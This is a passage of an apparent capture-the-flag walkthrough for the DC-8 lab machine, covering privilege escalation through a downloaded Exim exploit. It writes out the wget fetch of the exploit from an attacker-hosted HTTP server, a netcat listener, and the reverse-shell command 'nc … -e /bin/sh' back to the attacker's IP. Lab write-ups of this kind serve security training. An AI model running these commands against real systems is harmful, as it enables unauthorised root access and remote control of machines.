




5. Privilege Escalation
Look for an exploit on “ExploitDB”.
a) Go to
https://www.exploit-db.com/.
b) Search “exim”.


c) Download the exploit and copy it to “home”.
$wget
https
://
www.exploit-db.com
/
raw
/
46996 -O exploit.sh
d) Create a Server on your Kali Machine.
To do that I used Python to start the SimpleHTTPServer on port 80.
$python
-m SimpleHTTPServer 80
d) Go to “tmp” direstory and run the following commands.
www-data@dc-8
:/
tmp$
wget
http
://
192.168.12.56
/
exploit.sh
chmod
777 exploit.sh
After downloading the exploit, I changed the exploit file permission to 777, using the chmod command to provide executable permission to the exploit.
e) On the Kali Machine open a “netcat” session.
$nc
-lvp 4444
f) Run the command with the option to invoke “netcat”.
On the victim machine, the exploit was executed with the -m switch to use the netcat payload as per the description on the exploit-db website.
$bash
exploit.sh -m netcat
NOTICE
If you get the following error when running the above command:
$'\r': command not found
Remove trailing “/r”character that causes this error with the command:
$sed
-i
's/\r$//'
exploit.sh
Output:

g) Use the “nc” command to provide the reverse shell to the attacker machine.
When you got:
Waiting 5 seconds...
localhost [127.0.0.1] 31337 (?) open
Run the following command.
nc 192.168.12.56 4444 -e
/
bin
/sh
On your Kali Machine you'll have a “reverse shell”.
Output:

Index